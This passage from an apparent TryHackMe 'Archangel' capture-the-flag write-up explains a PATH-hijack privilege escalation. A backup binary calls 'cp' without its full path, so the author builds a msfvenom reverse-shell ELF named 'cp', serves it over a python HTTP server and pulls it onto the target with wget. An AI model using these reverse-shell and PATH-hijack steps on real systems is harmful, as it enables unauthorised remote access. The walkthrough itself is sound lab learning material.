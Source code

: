 ![Archangel - flag](/img/posts/thm-archangel/archangel_interesting.png)  

After running it and checking it out with **strings** I notice that the **cp** command is run without the full path annotation. This is exploitable.  

We can create a msfvenom payload called **cp** and adjust our *PATH* variable and when executing **./backup** we should get a reverse shell.  

```bash
msfvenom -p linux/x64/shell_reverse_tcp -f elf -o cp LHOST=10.9.83.183 LPORT=80
```  

We can set up a python server and transfer this file over to /home/arcahngel/secret/ with wget. On our machine :  

```bash
python3 -m http.server 80
```

On the target:  

```bash
wget http://10.9.83.183/cp
```

We can  modify our *PATH* variable :  

![$PATH modified](/img/posts/thm-archangel/path_modify.png)  
